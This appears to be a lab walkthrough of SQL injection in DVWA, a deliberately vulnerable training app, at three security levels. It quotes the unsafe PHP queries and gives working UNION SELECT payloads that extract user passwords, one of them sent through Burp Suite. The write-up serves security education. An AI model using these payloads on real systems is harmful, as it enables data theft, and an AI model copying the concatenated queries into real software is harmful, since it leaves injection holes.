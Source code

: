 # DVWA - SQL Injection

## Description

**Vulnerability:** SQL Injection    
**Impact:** Using vulnerability in SQL queries to get access to restricted data.

---

## LOW Security Level
The source code doesn't have any check on the input `id` it just pass the value to the query. We can easily use this payload to get tables list:

```
' UNION SELECT user, password FROM users #
```

Source code doesn't check anything:
```php
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

Result:
![Guide image](./screenshots/5.png)

## MEDIUM Security Level
The source code with the UI only enable us to choose `id` through a SELECT:
```php
// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
```

Besides this, there aren't any checks so we can easily intercept the request with Burp Suite and change the value of `id` with what we want.

However notice the difference the query uses number to access `id` therefore we can use this payload in Burp Suite:
```
id=0 UNION SELECT user, password FROM users%23&Submit=Submit
```
![Guide image](./screenshots/2.png)

Result:
![Guide image](./screenshots/1.png)

## HIGH Security Level
This is the updated `$query` of HIGH Security Level still doesn't have any checks
```php
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
```

The only difference is instead of use `id` param or body value it use session:
```php
// Get input
$id = $_SESSION[ 'id' ];
```
Click `Click here to change your ID.` it will popup a change id page. We can use this payload to get all passwords of users:
```
' UNION SELECT user, password FROM users #
```
![Guide image](./screenshots/3.png)

The `#` will help us make a comment to disable `LIMIT 1` and get all records in `users` table. Result:

![Guide image](./screenshots/4.png)

## Resources
- https://en.wikipedia.org/wiki/SQL_injection
- https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
- https://owasp.org/www-community/attacks/SQL_Injection
- https://bobby-tables.com/
